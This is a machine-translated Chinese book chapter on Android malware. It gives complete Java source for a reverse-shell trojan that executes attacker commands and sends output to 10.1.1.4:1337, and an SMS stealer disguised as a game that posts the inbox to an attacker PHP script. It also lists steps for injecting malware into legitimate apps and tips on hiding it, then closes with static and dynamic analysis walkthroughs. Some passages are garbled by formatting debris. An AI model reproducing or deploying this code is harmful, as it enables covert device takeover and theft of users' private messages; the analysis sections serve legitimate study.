



# 九、安卓恶意软件

本章介绍了创建和分析 Android 恶意软件时通常使用的基本技术。我们将首先介绍 Android 恶意软件的特征，创建一个简单的恶意软件，让攻击者在受感染的手机上获得一个反向外壳，然后我们将讨论一些基本的分析技术。

可以感染计算机的病毒时代很流行。随着智能手机的发展，一个被广泛接受的事实是，能够感染智能手机的移动恶意软件正在上升。Android，由于其开放性和对利用者敏感的 API 访问，是网络犯罪的一大目标。任何具备基本安卓编程知识的人都可以创建复杂的安卓恶意软件，从而极大地损害最终用户。在本章的下一节中，我们将看到一些流行的 Android 恶意软件，以及如何创建此类恶意软件。

以下是本章涵盖的一些主要主题：

*   编写一个简单的反向 shell 特洛伊木马程序
*   写一个简单的短信窃取者
*   感染合法应用
*   Android 恶意软件的静态和动态分析
*   如何防范安卓恶意软件

# 安卓恶意软件做什么？

典型的移动恶意软件只不过是在移动设备上运行的传统恶意软件。恶意软件的功能高度依赖于恶意软件作者想要实现的功能。记住这些因素，以下是 Android 恶意软件的一些特征：

*   窃取个人信息并将其发送到攻击者的服务器（个人信息包括 SMSE、通话记录、联系人、通话记录、GPS 位置、图片、视频、浏览历史记录和 IMEI）
*   发送付费短信
*   根设备
*   允许攻击者远程访问设备
*   未经用户同意安装其他应用
*   充当广告软件
*   窃取银行信息

# 编写 Android 恶意软件

我们已经看到了一些安卓恶意软件工作原理的例子。本节介绍如何创建一些简单的 Android 恶意软件。虽然本节将向读者介绍如何创建 Android 恶意软件的基本知识，但这些知识可用于创建更复杂的恶意软件。展示这些技术背后的想法是让读者学习分析技术，因为如果我们知道恶意软件是如何产生的，就很容易分析恶意软件。我们将使用 Android Studio 作为我们的 IDE 来利用这些应用。

## 使用 socket 编程编写一个简单的 reverse shell 特洛伊木马

本节演示了如何编写简单的恶意软件，当用户启动它时，它会给出一个反向外壳。

### 注

**注**：本节包含 Android 利用概念，因此希望读者已经了解 Android 利用基础知识。

1.  打开 Android Studio 并创建一个新应用，并将其命名为`SmartSpy`。
2.  Following is the code for `activity_main.xml`:

    ```
    <RelativeLayout xmlns:android="http://schemas.android.com/apk/res/android"
        xmlns:tools="http://schemas.android.com/tools" android:layout_width="match_parent"
        android:layout_height="match_parent" android:paddingLeft="@dimen/activity_horizontal_margin"
        android:paddingRight="@dimen/activity_horizontal_margin"
        android:paddingTop="@dimen/activity_vertical_margin"
        android:paddingBottom="@dimen/activity_vertical_margin" tools:context=".MainActivity">

        <TextView android:text="Trojan Demo" android:layout_width="wrap_content"
            android:layout_height="wrap_content" />

    </RelativeLayout>
    ```

    正如我们在前面的代码片段中所看到的，我们已经稍微修改了`activity_main.xml`文件，将`TextView`的值从**Hello World**更改为**特洛伊木马演示**。保存前一段代码后，用户界面应如以下屏幕截图所示：

    

3.  Now open up `MainActivity.java` and declare objects for the `PrintWriter` and`BufferedReader` classes as shown in the following excerpt. Additionally, call the `getReverseShell()` method within the `onCreate` method of the `MainActivity` class. Following is the code for `MainActivity.java`:

    ```
    public class MainActivity extends ActionBarActivity {

        PrintWriter out;
        BufferedReader in;

        @Override
        protected void onCreate(Bundle savedInstanceState) {
            super.onCreate(savedInstanceState);
            setContentView(R.layout.activity_main);

            getReverseShell(); 

        }
    ```

    `getReverseShell`是一种方法，我们在运行应用的 Android 设备上编写获取外壳的实际代码。

4.  Next step is to write code for the `getReverseShell()` method. This is the main part of the application. We will add Trojan capabilities to the app by writing code within this method. The goal is to achieve the following functions:

    *   声明攻击者侦听连接的服务器 IP 和端口
    *   编写代码以接收攻击者发送的传入命令
    *   执行攻击者发送的命令
    *   将已执行命令的输出发送给攻击者

        ```
        private void getReverseShell() {

          Thread thread = new Thread() {

          @Override
          public void run() {

            String SERVERIP = "10.1.1.4";

            int PORT = 1337;

            try {

              InetAddress HOST = InetAddress.getByName(SERVERIP);

              Socket socket = new Socket(HOST, PORT);

              Log.d("TCP CONNECTION", String.format("Connecting to %s:%d (TCP)", HOST, PORT));

              while (true) {

                out = new PrintWriter(new BufferedWriter(new OutputStreamWriter(socket.getOutputStream())), true);

                in = new BufferedReader(new InputStreamReader(socket.getInputStream()));

                String command = in.readLine();

                Process process = Runtime.getRuntime().exec(new String[]{"/system/bin/sh", "-c", command});

                BufferedReader reader = new BufferedReader(
                  new InputStreamReader(process.getInputStream()));
                  int read;
                  char[] buffer = new char[4096];
                  StringBuffer output = new StringBuffer();
                  while ((read = reader.read(buffer)) > 0) {
                    output.append(buffer, 0, read);
                  }
                  reader.close();

                  String commandoutput = output.toString();

                  process.waitFor();

                  if (commandoutput != null) {

                    sendOutput(commandoutput);

                   }
                   out = null;

                 }

               } catch (Exception e) {
                 e.printStackTrace();
                 }

             }
          };
          thread.start();

        }
        ```

    以下代码实现了所有这些功能：

让我们逐行理解前面的代码：

*   首先，我们创建了一个线程，以避免在主线程上执行网络任务。当应用在主线程上执行网络任务时，可能会导致应用崩溃。自 Android 4.4 以来，这些操作将引发运行时异常。
*   然后我们声明了攻击者服务器的 IP 地址和端口号。在本例中，攻击者服务器的 IP 地址为`10.1.1.4`，端口号为`1337`。您可以根据需要更改这两个选项。
*   然后我们实例化了`PrintWriter`**和`BufferedReader`**对象。`out`是为向攻击者发送命令输出而创建的对象。目标`in`是接收攻击者的命令。****
*****   然后我们编写了下面的代码，其中我们使用`InputStreamReader`**对象读取字符串输入。用外行的话说，这些是攻击者通过远程 shell 发送的命令：

    ```
    String command = in.readLine();
    ```** ***   在上述行中接收的输入命令应由应用执行。这是使用以下代码完成的，其中 Java 的`exec()`方法用于运行系统命令。正如您在下面的代码中所看到的，`command`是一个字符串变量，在上一步中，从攻击者接收到的命令存储在该变量中。它由安卓设备上的`/system/bin/sh`二进制文件执行：

    ```
    Process process = Runtime.getRuntime().exec(new String[]{"/system/bin/sh", "-c", command});
    ```

    *   以下几行将获取上一步的输出，我们在该步骤中执行系统命令。该输出作为输入，该输入放在字符串缓冲区中。因此，在运行以下代码后，执行的命令输出将存储在名为`output`：

    ```
         BufferedReader reader = new BufferedReader(

           new InputStreamReader(process.getInputStream()));
             int read;
             char[] buffer = new char[4096];
             StringBuffer output = new StringBuffer();
             while ((read = reader.read(buffer)) > 0) {
               output.append(buffer, 0, read);
             }
             reader.close();
    ```

    的变量中*   然后，以下行将输出转换为字符串格式的值：

    ```
    String commandoutput = output.toString();
    ```

    *   `process.waitFor()`；是等待命令完成。*   最后，我们正在编写`if`条件来检查`commandoutput`是否有`null`值。如果`commandoutput`变量不是`null`，则会调用一个名为`sendOutput()`的方法，其中会写入将输出发送给攻击者的实现。如下所示：

    ```
      if (commandoutput != null) {

        sendOutput(commandoutput);

      }

      out = null;
    ```****** 

 ******好的现在让我们继续我们留下的编码`getReverseShell()`方法和`sendOutput()`方法的编码。

以下是将输出数据写入攻击者外壳的代码：

```
private void sendOutput(String commandoutput) {

        if (out != null && !out.checkError()) {
            out.println(commandoutput);
            out.flush();
        }

    }
```

至此，我们已经完成了 Java 代码的编写，以实现本节开头定义的目标。

以下是我们在`MainActivity.class`文件中编写的完整代码：

```
package com.androidpentesting.smartspy;
import android.os.Bundle;
import android.support.v7.app.ActionBarActivity;
import android.util.Log;

import java.io.BufferedReader;
import java.io.BufferedWriter;
import java.io.InputStreamReader;
import java.io.OutputStreamWriter;
import java.io.PrintWriter;
import java.net.InetAddress;
import java.net.Socket;

public class MainActivity extends ActionBarActivity {

  PrintWriter out;
  BufferedReader in;

  @Override
  protected void onCreate(Bundle savedInstanceState) {
    super.onCreate(savedInstanceState);
    setContentView(R.layout.activity_main);

    getReverseShell(); //This works without netcat

  }

  private void getReverseShell() {

  //Running as a separate thread to reduce the load on main thread

    Thread thread = new Thread() {

      @Override
      public void run() {

      //declaring host and port

      String SERVERIP = "10.1.1.4";

      int PORT = 1337;

      try {

        InetAddress HOST = InetAddress.getByName(SERVERIP);

        Socket socket = new Socket(HOST, PORT);

        Log.d("TCP CONNECTION", String.format("Connecting to %s:%d (TCP)", HOST, PORT));

       //Don't connect using the following line - not required

   // socket.connect( new InetSocketAddress( HOST, PORT ), 3000 );

        while (true) {

       //Following line is to send command output to the attacker

          out = new PrintWriter(new BufferedWriter(new OutputStreamWriter(socket.getOutputStream())), true);

       //Following line is to receive commands from the attacker

          in = new BufferedReader(new InputStreamReader(socket.getInputStream()));

       //Reading  string input using InputStreamReader object - These are the commands attacker sends via our remote shell

          String command = in.readLine();

          //input command will be executed using exec method

          Process process = Runtime.getRuntime().exec(new String[]{"/system/bin/sh", "-c", command});

          //The following lines will take the above output as input and place them in a string buffer.

          BufferedReader reader = new BufferedReader(

           new InputStreamReader(process.getInputStream()));
             int read;
             char[] buffer = new char[4096];
             StringBuffer output = new StringBuffer();
             while ((read = reader.read(buffer)) > 0) {
             output.append(buffer, 0, read);
             }
             reader.close();

            //Converting the output into string
            String commandoutput = output.toString();

            // Waits for the command to finish.
            process.waitFor();

            // if the string output is not null, send it to the attacker using sendOutput method:)

            if (commandoutput != null) {
              //call the method sendOutput

              sendOutput(commandoutput);

            }
            out = null;

            }

          } catch (Exception e) {
            e.printStackTrace();
        }

      }
    };
    thread.start();

  }

  //method to send the final string value of the command output to attacker

    private void sendOutput(String commandoutput) {

     if (out != null && !out.checkError()) {
       out.println(commandoutput);
       out.flush();
     }

    }

}
```******  ******# 注册权限

由于应用正在处理网络连接，我们需要在`AndroidManifest.xml`中添加以下互联网权限：

```
 <uses-permission android:name="android.permission.INTERNET"></uses-permission>

```

将前面的权限添加到`AndroidManifest.xml`文件后，代码应该如下所示：

```
<?xml version="1.0" encoding="utf-8"?>
<manifest xmlns:android="http://schemas.android.com/apk/res/android"
    package="com.androidpentesting.smartspy" >

    <uses-permission android:name="android.permission.INTERNET"></uses-permission>
    <application
        android:allowBackup="true"
        android:icon="@drawable/ic_launcher"
        android:label="@string/app_name"
        android:theme="@style/AppTheme" >
        <activity
            android:name=".MainActivity"
            android:label="@string/app_name" >
            <intent-filter>
              <action android:name="android.intent.action.MAIN" />

              <category android:name="android.intent.category.LAUNCHER" />
            </intent-filter>
        </activity>
    </application>

</manifest>
```

是时候在模拟器上运行这个代码了。在执行此操作之前，请在攻击者的机器上启动 Netcat 侦听器，如以下屏幕截图所示。这是 IP 地址为`10.1.1.4`的机器，端口`1337`用于连接：


现在运行应用并在模拟器中启动它。应该是这样的：


一旦我们运行它，应用应该与服务器建立连接：


现在，我们可以使用安装的应用的权限运行任何系统命令。下面的屏幕截图显示了`id`命令的输出：


下图显示了受感染设备的 CPU 信息：



## 写一个简单的短信窃取者

在部分中，我们将了解如何编写一个简单的短信窃取程序，从用户设备读取短信并将其发送到攻击者的服务器。其想法是创建一个看起来像简单游戏的应用。当用户点击**开始游戏**按钮时，它从设备读取 SMSE 并将其发送给攻击者。首先创建一个新的 Android Studio 项目并将其命名为`SmartStealer`。

### 用户界面

正如在介绍中提到的，我们将在第一个活动中有一个**启动游戏**按钮，如下所示：


以下是显示此用户界面的`activity_main.xml`文件的代码：

```
<RelativeLayout xmlns:android="http://schemas.android.com/apk/res/android"
  xmlns:tools="http://schemas.android.com/tools" android:layout_width="match_parent"
    android:layout_height="match_parent" android:paddingLeft="@dimen/activity_horizontal_margin"
    android:paddingRight="@dimen/activity_horizontal_margin"
    android:paddingTop="@dimen/activity_vertical_margin"
    android:paddingBottom="@dimen/activity_vertical_margin" tools:context=".MainActivity">

    <ImageView
        android:layout_width="match_parent"
        android:layout_height="match_parent"
        android:background="@drawable/curveahead"
        android:id="@+id/imageView" />

    <Button
        android:layout_width="wrap_content"
        android:layout_height="wrap_content"
        android:text="Start the Game"
        android:id="@+id/btnStart"
        android:layout_alignTop="@+id/imageView"
        android:layout_centerHorizontal="true"
        android:layout_marginTop="84dp" />

</RelativeLayout>
```

正如我们可以在前面的节选中看到的，我们有一个`ImageView`，其中我们加载图像作为背景，然后我们有一个**按钮**，用于显示文本**启动游戏**。

#### MainActivity.java 的代码

现在打开打开`MainActivity.java`并为`Button`类声明一个对象。然后声明一个名为`sms`的字符串变量，该变量将用于存储稍后从设备读取的消息。另外，使用`BasicNameValuePair`创建一个`ArrayList`类类型的对象。`NameValuePair`是一个特殊的<键、值>对，用于表示 HTTP 请求中的参数。我们在这里使用它，因为我们需要稍后通过 HTTP 请求将 SMSE 发送到服务器。最后，为我们创建的按钮设置一个`OnClickListener`事件。每当单击此按钮时，此按钮用于执行代码：

```
public class MainActivity extends Activity {

    Button btn;
    String sms = "";

    ArrayList<BasicNameValuePair> arrayList = new ArrayList<BasicNameValuePair>();

    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);

        btn = (Button) findViewById(R.id.btnStart);

        btn.setOnClickListener(new View.OnClickListener() {
            @Override
            public void onClick(View v) {

       //SMS Stealing code here

            }
        });

    }
```

正如您在前面的摘录中所看到的，SMS stealer 应用的框架已经准备就绪。我们现在需要在`onClick()`方法中添加短信窃取代码。

#### 读短信代码

以下是从短信应用收件箱中读取短信的代码。目标是实现以下目标：

*   阅读内容提供商的短信`content://sms/inbox`
*   将这些短信存储为基本名称-值对
*   使用 http post 请求将此名称-值对上载到攻击者的服务器：

    ```
    Thread thread = new Thread(){

      @Override
      public void run() {

        Uri uri = Uri.parse("content://sms/inbox");

        Cursor cursor = getContentResolver().query(uri,null,null,null,null);

        int index = cursor.getColumnIndex("body");

        while(cursor.moveToNext()){

          sms += "From :" + cursor.getString(2) + ":" + cursor.getString(index) + "\n";
          }

          arrayList.add(new BasicNameValuePair("sms",sms));

          uploadData(arrayList);

        }
      };
      thread.start();
    ```

让我们逐行理解前面的代码：

*   首先，我们创建了一个线程，以避免在主线程上执行网络任务。
*   接下来，我们将创建一个 Uri 对象，指定要读取的内容。在我们的例子中，它是收件箱内容。`Uri` 对象通常用于告诉`ContentProvider`我们希望通过引用访问的内容。它是到特定资源的不可变的一对一映射。方法`Uri.parse`从格式正确的字符串创建一个新的 Uri 对象：

    ```
    Uri uri = Uri.parse("content://sms/inbox");
    ```

*   接下来，我们使用游标对象从表中读取`SMS`**`body`和`From`字段。提取的内容存储在我们前面声明的`sms`变量中：

    ```
    Cursor cursor = getContentResolver().query(uri,null,null,null,null);

      int index = cursor.getColumnIndex("body");

      while(cursor.moveToNext()){

        sms += "From :" + cursor.getString(2) + ":" + cursor.getString(index) + "\n";
     }
    ```** 
***   阅读短信后，我们使用以下行将值作为基本名称-值对添加到`ArrayList`对象：

    ```
    arrayList.add(new BasicNameValuePair("sms",sms));
    ```

    *   最后，我们使用`ArrayList`对象作为参数调用`uploadData()`方法。如下所示：

    ```
    uploadData(arrayList);
    ```** 

 **#### uploadData（）方法的代码

以下是将 SMS 上传到攻击者控制的服务器的代码：

```
private void uploadData(ArrayList<BasicNameValuePair> arrayList) {

  DefaultHttpClient httpClient = new DefaultHttpClient();

  HttpPost httpPost = new HttpPost("http://10.1.1.4/smartstealer/sms.php");

  try {
    httpPost.setEntity(new UrlEncodedFormEntity(arrayList));
    httpClient.execute(httpPost);

  } catch (Exception e) {

  e.printStackTrace();
  }
  }

}
```

让我们逐行理解前面的代码。

*   首先我们创建`DefaultHttpClient`对象：

    ```
    DefaultHttpClient httpClient = new DefaultHttpClient();
    ```

*   接下来我们将创建一个`HttpPost`对象，在这里我们需要指定目标服务器的 URL。在我们的例子中，下面是 URL。我们将在本节后面看到`sms.php`文件的代码：`http://10.1.1.4/smartstealer/sms.php`
*   接下来，我们需要构建要发送到服务器的 post 参数。在本例中，我们需要发送的唯一参数是 SMS 名称-值对，它作为参数传递给`uploadData()`方法：

    ```
    httpPost.setEntity(new UrlEncodedFormEntity(arrayList));
    ```

*   最后一步是使用下面的行执行 HTTP 请求：

    ```
    httpClient.execute(httpPost);
    ```

#### MainActivity.java 的完整代码

以下是我们在`MainActivity.class`文件中编写的完整代码：

```
package com.androidpentesting.smartstealer;

import android.app.Activity;
import android.database.Cursor;
import android.net.Uri;
import android.os.Bundle;
import android.view.View;
import android.widget.Button;

import org.apache.http.client.entity.UrlEncodedFormEntity;
import org.apache.http.client.methods.HttpPost;
import org.apache.http.impl.client.DefaultHttpClient;
import org.apache.http.message.BasicNameValuePair;

import java.util.ArrayList;

public class MainActivity extends Activity {

  Button btn;
  String sms = "";

  ArrayList<BasicNameValuePair> arrayList = new ArrayList<BasicNameValuePair>();

    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);

        btn = (Button) findViewById(R.id.btnStart);

        btn.setOnClickListener(new View.OnClickListener() {
          @Override
          public void onClick(View v) {
            Thread thread = new Thread(){

            @Override
            public void run() {

            Uri uri = Uri.parse("content://sms/inbox");

            Cursor cursor = getContentResolver().query(uri,null,null,null,null);

            int index = cursor.getColumnIndex("body");

            while(cursor.moveToNext()){

            sms += "From :" + cursor.getString(2) + ":" + cursor.getString(index) + "\n";
            }

              arrayList.add(new BasicNameValuePair("sms",sms));

              uploadData(arrayList);

            }
          };
          thread.start();
        }
     });

  }

  private void uploadData(ArrayList<BasicNameValuePair> arrayList) {

  DefaultHttpClient httpClient = new DefaultHttpClient();

  HttpPost httpPost = new HttpPost("http://10.1.1.4/smartstealer/sms.php");

  try {
        httpPost.setEntity(new UrlEncodedFormEntity(arrayList));
        httpClient.execute(httpPost);

      } catch (Exception e) {

      e.printStackTrace();
    }
  }

}
```**  **### 注册权限

由于应用正在处理阅读短信和进行网络连接，我们需要在`AndroidManifest.xml`中添加以下权限：

```
<uses-permission android:name="android.permission.INTERNET"></uses-permission>
 <uses-permission android:name="android.permission.READ_SMS"></uses-permission>

```

将前面的权限添加到`AndroidManifest.xml`文件后，代码应该如下所示：

```
<?xml version="1.0" encoding="utf-8"?>
<manifest xmlns:android="http://schemas.android.com/apk/res/android"
    package="com.androidpentesting.smartstealer" >

    <uses-permission android:name="android.permission.INTERNET"></uses-permission>
    <uses-permission android:name="android.permission.READ_SMS"></uses-permission>

    <application
        android:allowBackup="true"
        android:icon="@drawable/ic_launcher"
        android:label="@string/app_name"
        android:theme="@style/AppTheme" >
        <activity
            android:name=".MainActivity"
            android:label="@string/app_name" >
            <intent-filter>
              <action android:name="android.intent.action.MAIN" />

              <category android:name="android.intent.category.LAUNCHER" />
            </intent-filter>
        </activity>
    </application>

</manifest>
```

### 服务器上的代码

在上一节中，我们使用以下 URL 发送短信：

`http://10.0.0.31/smartstealer/sms.php`

我们现在需要编写在服务器端接收 SMS 的代码。简单地说，我们现在看到了攻击者服务器上托管的`sms.php`文件的代码。

以下是`sms.php`的完整代码：

```
<?php 

$sms   = $_POST["sms"];

$file = "sms.txt";

$fp =fopen($file,"a") or die("coudnt open");

fwrite($fp,$sms) or die("coudnt");

die("success!");

fclose($fp);

?>

```

*   正如您在前面的摘录中所看到的，我们将 post 数据存储到一个名为`$sms`的变量中
*   然后，我们使用`fopen()`以追加模式打开一个名为`sms.txt`的文件
*   接下来，我们将使用`fwrite()`将数据写入`sms.txt`文件
*   最后，我们将使用`fclose()`关闭该文件

现在，如果您在 emulator/real 设备中启动应用并单击**启动游戏**按钮，您应该会看到攻击者服务器上设备收件箱中的所有短信：



### 提示

**提示**：为了让读者了解如何使用 Android 中的内置 API 利用简单的恶意软件，我们讨论了使用活动和单击按钮等概念，以简单的方式执行一些恶意任务。您可以尝试将广播接收器与服务一起添加，以便在后台无声地执行这些恶意功能，而不让用户注意到。利用危险的真实世界恶意软件完全取决于你的想象力和编码技能。除此之外，混淆代码会使恶意软件分析师更难执行静态分析。

### 关于感染合法应用的说明

原始的 Android 应用很容易被修改并感染恶意应用。为此，必须执行以下步骤：

1.  使用 apktool 获取原始应用和恶意应用的 smali 代码。
2.  将恶意 smali 文件添加到原始应用`smali`文件夹中的 smali 文件中。
3.  将恶意应用的所有引用更改为包含原始应用的引用。
4.  将恶意应用所需的适当权限添加到原始应用的`AndroidManifest.xml`文件中。
5.  如果需要，声明组件，例如广播接收器、服务等。
6.  使用 apktool 重新打包原始应用。
7.  使用 keytool 和 Jarsigner 工具对新生成的 APK 文件进行签名。
8.  你受感染的应用已准备就绪。**  **# 恶意软件分析

这个部分展示了如何使用静态和动态分析技术分析 Android 恶意软件。我们将使用在现实世界中常用的逆向工程技术，使用静态分析技术分析恶意软件。tcpdump 将用于应用的动态分析，以查看应用正在进行的网络调用。我们还可以使用 introspy 等工具捕获应用正在进行的其他敏感 API 调用。本节显示了我们前面使用的 SMS 窃取程序的分析。

## 静力分析

让我们从开始，使用逆向工程技术进行静态分析。当一个应用必须进行恶意行为分析时，如果我们能够访问它的源代码，就更容易了。

### 使用 Apktool 反汇编 Android 应用

我们可以使用 Apktool 对应用进行反汇编，得到 smali 版本的代码。

以下是实现该目标的步骤：

1.  Navigate to the location of the app:

    ```
    $ pwd
    /Users/srini0x00/Desktop/malware-analysis
    $

    $ ls SmartStealer.apk 
    SmartStealer.apk
    $

    ```

    正如您在前面的摘录中所看到的，我们在当前工作目录中有`SmartStealer.apk`文件。

2.  运行以下命令获取代码的 smali 版本：

    ```
    Java –jar apktool_2.0.3.jar d [app].apk

    ```

3.  以下摘录显示了使用 Apktool 分解应用的过程：

    ```
    $ java -jar apktool_2.0.3.jar d SmartStealer.apk 
    I: Using Apktool 2.0.3 on SmartStealer.apk
    I: Loading resource table...
    I: Decoding AndroidManifest.xml with resources...
    I: Loading resource table from file: /Users/srini0x00/Library/apktool/framework/1.apk
    I: Regular manifest package...
    I: Decoding file-resources...
    I: Decoding values */* XMLs...
    I: Baksmaling classes.dex...
    I: Copying assets and libs...
    I: Copying unknown files...
    I: Copying original files...
    $

    ```

4.  现在让我们检查一下在这个文件夹中创建的文件：

    ```
    $ ls
    AndroidManifest.xml  apktool.yml    original    res      smali
    $

    ```

正如您在前面的摘录中所看到的，我们已经创建了一些文件和文件夹。我们对`AndroidManifest.xml`文件和`smali`**文件夹感兴趣。**

 **#### 探索 AndroidManifest.xml 文件

在恶意软件分析过程中探索文件通常会给我们提供大量信息。由于对在移动设备上访问敏感 API 的严格限制，利用人员在使用其应用访问敏感 API 时必须声明权限。Android 恶意软件利用者也是如此。如果应用需要访问 SMS，则必须在`AndroidManifest.xml`文件中指定`READ_SMS`权限。同样，必须提及任何敏感 API 调用的权限。让我们来看看取自`SmartStealer.apk`的`AndroidManifest.xml`文件：

```
$ cat AndroidManifest.xml 
<?xml version="1.0" encoding="utf-8" standalone="no"?>
<manifest xmlns:android="http://schemas.android.com/apk/res/android" package="com.androidpentesting.smartstealer" platformBuildVersionCode="21" platformBuildVersionName="5.0.1-1624448">
 <uses-permission android:name="android.permission.INTERNET"/>
 <uses-permission android:name="android.permission.READ_SMS"/>
 <application android:allowBackup="true" android:debuggable="true" android:icon="@drawable/ic_launcher" android:label="@string/app_name" android:theme="@style/AppTheme">
 <activity android:label="@string/app_name" android:name="com.androidpentesting.smartstealer.MainActivity">
 <intent-filter>
 <action android:name="android.intent.action.MAIN"/>
 <category android:name="android.intent.category.LAUNCHER"/>
 </intent-filter>
 </activity>
 </application>
</manifest>
$

```

正如您可以在前面的摘录中看到的，此应用正在请求两个权限，如下所示：

```
<uses-permission android:name="android.permission.INTERNET"/>
 <uses-permission android:name="android.permission.READ_SMS"/>

```

此应用只有一个名为`MainActivity`的活动，但没有隐藏的应用组件，如服务或广播接收器。

#### 探索 smali 文件

Apktool 给出了 smali 代码，它是原始 Java 代码和最终 dex 代码之间的中间版本。尽管它看起来不像是用 Java 等高级编程语言编写的代码，但投入一点时间应该会带来丰硕的成果。

以下是使用 apktool 提取的`smali`文件：

```
$ pwd
/Users/srini0x00/Desktop/malware-analysis/SmartStealer/smali/com/androidpentesting/smartstealer
$
$ 
$ls
BuildConfig.smali  MainActivity.smali  R$bool.smali    R$drawable.smali  R$layout.smali    R$style.smali
MainActivity$1$1.smali  R$anim.smali    R$color.smali    R$id.smali    R$menu.smali    R$styleable.smali
MainActivity$1.smali  R$attr.smali    R$dimen.smali    R$integer.smali    R$string.smali    R.smali
$

```

以下摘录显示了`MainActivity.smali`中的代码：

```
$ cat MainActivity.smali 

.class public Lcom/androidpentesting/smartstealer/MainActivity;
.super Landroid/app/Activity;
.source "MainActivity.java"

# instance fields
.field arrayList:Ljava/util/ArrayList;
    .annotation system Ldalvik/annotation/Signature;
        value = {
            "Ljava/util/ArrayList",
            "<",
            "Lorg/apache/http/message/BasicNameValuePair;",
            ">;"
        }
    .end annotation
.end field

.field btn:Landroid/widget/Button;

.field sms:Ljava/lang/String;

.
.
.
.
.
.
.
.
.
.
.
.
.
.
.
.

    .line 71
    .local v2, "httpClient":Lorg/apache/http/impl/client/DefaultHttpClient;
    new-instance v5, Lorg/apache/http/client/methods/HttpPost;

    move-object v9, v5

    move-object v5, v9

    move-object v6, v9

    const-string v7, "http://10.1.1.4/smartstealer/sms.php"

    invoke-virtual {v3, v4}, Lcom/androidpentesting/smartstealer/MainActivity;->findViewById(I)Landroid/view/View;

    move-result-object v3

    check-cast v3, Landroid/widget/Button;

    iput-object v3, v2, Lcom/androidpentesting/smartstealer/MainActivity;->btn:Landroid/widget/Button;

    .line 33
    move-object v2, v0

    iget-object v2, v2, Lcom/androidpentesting/smartstealer/MainActivity;->btn:Landroid/widget/Button;

    new-instance v3, Lcom/androidpentesting/smartstealer/MainActivity$1;

    move-object v6, v3

    move-object v3, v6

    move-object v4, v6

    move-object v5, v0

    invoke-direct {v4, v5}, Lcom/androidpentesting/smartstealer/MainActivity$1;-><init>(Lcom/androidpentesting/smartstealer/MainActivity;)V

    invoke-virtual {v2, v3}, Landroid/widget/Button;->setOnClickListener(Landroid/view/View$OnClickListener;)V

    .line 65
    return-void
.end method
```

正如您在上面的摘录中所看到的，这是`MainActivity.java`文件的反汇编版本。在下一节中，我们将探讨获取 Java 代码的技术，这在分析过程中相对容易理解。**  **### 使用 dex2jar 和 JD-GUI 反编译 Android 应用

正如前一节提到的，当涉及恶意软件分析时，逆转 Android 应用以获取 Java 源代码相对容易。让我们看看如何使用两种流行工具获取 Java 代码：

*   dex2jar
*   JD-GUI

dex2jar 是一种将 DEX 文件转换为 JAR 文件的工具。

一旦从 DEX 文件生成 JAR 文件，就可以使用许多传统的 Java 反编译器从 JAR 获取 Java 文件。JD-GUI 是最常用的工具之一。

让我们反编译前面创建的同一个**SmartStealer**应用，并对其进行分析。

以下摘录显示了如何使用 dex2jar 工具从 DEX 文件获取 jar 文件：

```
$ sh dex2jar.sh SmartStealer.apk 
this cmd is deprecated, use the d2j-dex2jar if possible
dex2jar version: translator-0.0.9.15
dex2jar SmartStealer.apk -> SmartStealer_dex2jar.jar
Done.
$

```

您会注意到，在上述摘录中，我们提供了一个 APK 文件作为输入，而不是`classes.dex`文件。我们可以提供其中任何一个作为输入。当提供 apk 作为输入时，dex2jar 将自动从中获取`classes.dex`文件。如您所见，前面的步骤已经创建了一个名为`SmartStealer_dex2jar.jar`**的新 jar 文件。**

现在，打开 JD-GUI 工具并使用它打开这个新生成的 jar 文件。我们应该看到如下屏幕截图所示的 Java 代码：


仔细观察上述反编译代码，发现了以下代码：


前面的代码清楚地表明应用正在使用内容提供商 Uri`content://sms/inbox`**从设备读取 SMSE。**代码的最后一行显示应用正在调用名为`uploadData`的方法，并将`arrayList`对象作为参数传递给它。

在同一个 Java 文件中搜索`uploadData`方法定义，发现如下：


应用通过调用以下 URL 将从设备读取的 SMS 发送到远程服务器：

`http://10.1.1.4/smartstealer/sms.php`

本章前面一节已经介绍了如何利用此应用的逐步步骤。因此，如果您想了解更多的技术细节，请参阅本章的*编写简单的短信窃取者*部分。**  **## 动力分析

另一种分析 Android 应用的方法是使用动态分析技术，包括运行应用、了解功能及其动态行为。当源代码模糊时，动态分析非常有用。本节重点分析使用主动和被动流量拦截技术的 Android 应用的网络流量。

### 使用 Burp 分析 HTTP/HTTPS 流量

如果应用正在与远程服务器建立 HTTP 连接，那么分析流量就非常简单，因为这就像使用代理工具（如 Burp）拦截流量一样简单。以下屏幕截图显示了用于分析我们的目标应用`SmartStealer`的仿真器中的代理配置：


IP 地址`10.0.2.2`表示运行仿真器的主机的 IP 地址。Burp 正在主机上的端口`8080`上运行，因此此配置无效。此配置确保来自此 Android 仿真器的任何 http 流量将首先进入 Burp 代理。

现在，启动要分析的目标应用，浏览所有屏幕并单击按钮（如果有）。在本例中，我们只有一个带有按钮的活动：


点击的**开始游戏**按钮，您会在 Burp 代理中看到发送到服务器的短信：


